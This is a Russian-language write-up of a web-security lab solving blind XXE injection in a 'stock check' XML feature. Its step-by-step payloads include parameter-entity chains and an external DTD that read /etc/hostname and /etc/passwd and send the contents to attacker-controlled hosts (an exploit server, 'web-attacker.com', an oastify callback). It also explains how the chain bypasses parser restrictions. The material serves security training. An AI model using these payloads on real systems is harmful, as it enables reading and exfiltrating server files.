 В этой лабораторной работе есть функция «Проверка запасов», которая анализирует входные данные XML, но не отображает результат.

Чтобы решить лабораторную работу, извлеките содержимое файла `/etc/hostname`.

## Дано

уязвимость  функция «Проверка запасов»
не отображает результат инъекция

## Задача

извлеките содержимое файла `/etc/hostname`.

# Решение

Запрос
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

тест dtd
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ 
	<!ENTITY xxe test "test> 
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```
- "XML parsing error"

проверим пинг 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ 
	<!ENTITY % xxe SYSTEM "https://5hnuzib2b14c93c2jujnrgghn8t0hr8fx.oastify.com"> 
	%xxe;
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```
- есть

теперь формируем двойную сущность
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ 
	<!ENTITY % file SYSTEM "file:///etc/passwd"> 
	<!ENTITY % eval "<!ENTITY &#x25; exfile SYSTEM 'http://web-attacker.com/?x=%file;'>"> 
%eval; 
%exfile;
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```
- ответ "Entities are not allowed for security reasons"

делаем нагрузку полезную которая обратится к нашему серверу с dtd
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ 
  <!ENTITY % loadDTD SYSTEM "https://exploit-0ad20044048e5e3480fa52cd017900d7.exploit-server.net/exploit"> 
  %loadDTD;
  %eval;
  %exfile;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

на сервере 
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfile SYSTEM 'https://exploit-0ad20044048e5e3480fa52cd017900d7.exploit-server.net/exploit/%file;'>">
```
- Можно было и на сервере вызвать сущности
#### Внимание
при выводе многострочных файлов где могут храниться спец символы лучше использовать ftp и/или кодировку base64 
![[Pasted image 20250201123155.png]]
Пример
`<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">`
#### Объяснение
1. Мы отправляем парсеру внешнюю сущность которая отправляет его на наш сервер где хранятся 2 сущности 
2. Сущность на сервере `file` определяет файл который нам нужно заполучить, вторя сущность `eval` определяет сущность `exfile` которая ссылается на наш сервер по пути который на самом деле хранит в себе информацию с сервера жертвы 

- Мы сделали **цепочку параметрических сущностей**. Это нужно для:
	1. **Обхода ограничений парсера**:  
	    Некоторые парсеры запрещают объявлять внешние сущности внутри внутреннего DTD. Параметрические сущности позволяют обойти это ограничение.
	2. **Динамической подстановки данных**:  
	    Сначала определяется `%file` (файл), затем `%eval` использует `%file` для формирования URL. Без цепочки подстановка данных была бы невозможна.
	3. **Автоматической активации**:  
	    Параметрические сущности (`%eval;`, `%exfilе;`) выполняются сразу после объявления в DTD.
